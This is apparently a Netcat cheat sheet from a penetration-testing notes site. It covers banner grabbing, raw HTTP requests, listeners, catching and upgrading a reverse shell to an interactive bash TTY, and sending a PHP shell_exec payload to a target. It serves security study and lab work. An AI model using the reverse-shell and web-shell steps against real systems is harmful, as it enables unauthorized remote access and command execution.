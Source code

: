 ```yaml
---
title: Netcat
desc: Manages network connections. Also known as 'nc'.
tags: [ActiveRecon, Linux, Network, PrivEsc, ReverseShell, SMTP, Web]
alts: [Ncat, Telnet]
website:
render_with_liquid: false
---
```


## Useful Commands

```sh
# Banner Grabbing
nc 10.0.0.1 21
nc 10.0.0.1 22
```

<br />

## HTTP request

```sh
echo -en "GET / HTTP/1.1\nhost: netcat\n\n" | nc 10.10.44.191 80
```

<br />

## Listen

```sh
# HTTP
nc -lvnp 80

# HTTPS
nc -lvnp 443
```

<br />

## Listen (background)

```sh
# Add '&'
nc -lvnp 4444 &
```

<br />

## Listen for Reverse Shell

```sh
nc -lvnp 4444

# ---- Got shell -------------------------

# Interactive shell
/bin/bash -i

# Upgrade to fully functional terminal
SHELL=/bin/bash script -q /dev/null
# or
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Upgrade completely
Ctrl+z
stty raw -echo;fg
Enter x2
export TERM=xterm
```

<br />

## PHP Shell

```sh
nc <target-ip> 80
<?php echo shell_exec('whoami') ?>
```

<br />

## SMTP Banner Grabbing

```sh
nc -vn <target-ip> 25
```